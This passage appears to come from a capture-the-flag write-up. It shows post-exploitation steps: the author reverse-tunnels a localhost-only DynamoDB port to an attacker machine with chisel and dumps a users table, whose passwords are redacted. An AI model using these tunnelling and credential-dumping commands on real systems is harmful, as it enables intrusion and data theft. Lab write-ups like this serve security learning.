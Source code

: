 With the shell we can find credentials to access the dynamoDB instance in the db.php file. The dynamoDB instance is running on the server however, it can only be accessed from localhost. Therefore I used chisel to forward the port to my local machine. The port that dynamoDB runs on is 4566. The commands to forward the port to localhost with chisel are below.

```bash
# On host machine 
./chisel server -p 9999 --reverse
# Above listens for the incoming chisel
# After we get a connection I ran the following to test
aws dynamodb list-tables --endpoint-url http://localhost:4566
{
    "TableNames": [
        "users"
    ]
}

# On victim machine
./chisel client 10.10.14.25:9999 R:4566:127.0.0.1:4566
2021/04/03 03:14:58 client: Connecting to ws://10.10.14.25:9999
2021/04/03 03:14:58 client: Connected (Latency 19.45947ms)
```

Once the database is forwarded we can dump the information from the table. First we get what tables are in the database then we dump the information from the users table.

```bash
aws dynamodb list-tables --endpoint-url http://localhost:4566
{
    "TableNames": [
        "users"
    ]
}

aws dynamodb scan --table-name users --endpoint-url http://localhost:4566
{
    "Items": [
        {
            "password": {
                "S": "{redacted}"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "{redacted}"
            },
            "username": {
                "S": "{redacted}"
            }
        },
        {
            "password": {
                "S": "{redacted}"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
```